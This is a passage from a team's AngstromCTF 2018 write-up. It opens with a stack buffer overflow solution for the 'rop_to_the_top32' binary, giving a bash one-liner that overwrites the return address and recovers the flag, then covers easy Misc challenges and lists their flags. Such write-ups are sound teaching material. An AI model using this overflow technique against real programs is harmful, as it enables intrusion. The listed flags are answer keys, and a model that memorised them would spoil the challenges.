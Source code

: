 To overwrite the return address on the stack, we have to add another 4 bytes.
This means we have to write:
* 44 bytes to get to the return address
* Return Address (4 bytes)

Calling the program with the correct argument:
```bash
$ ./rop_to_the_top32 $(for i in {1..44}; do echo -n 'a'; done; echo -ne '\xdb\x84\x04\x08')
Now copying input...
Done!
actf{strut_your_stuff}
Segmentation fault (core dumped)
```

Points: 130  
Flag: `actf{strut_your_stuff}`

# AngstromCTF 2018
Team: https://ctftime.org/team/53225  
Due to time limitations (school, etc.) this writeup isn't complete.  
  
----------

## **Misc**
### **IRC**
The first challenge was pretty easy, you just had to join the IRC Server and retrieve the flag from the channel description.
  
Points: 10  
Flag: `actf{irc}`  

### **Waldo 1**
There challenge description had a .zip archive, with 5 pictures of flags attached. One of the pictures had the flag on it.  
  
Points: 10  
Flag: `actf{there_is_no_collusion_(between_teams)}`  
  
### **Waldo 2**
This challenge was simmilar to the WALDO 1 challenge, but contained 500 images instead of 5.  
I've used the tool fdupes, to delete the duplicates. The remaining image had to be opened in a text editor, where you got the flag.  
  
Points: 30  
Flag: `actf{r3d_4nd_wh1t3_str1p3s}`  
  
### **That's Not My Name**
This challenge had a .pdf file attached. The pdf file couldn't be opened with normal PDF readers, since the file type was "application/zip". The file command gave me `gettysburg.pdf: Microsoft OOXML`. OOXML stands for Open Office XML. Libreoffice Writer was finally able to open it.  
  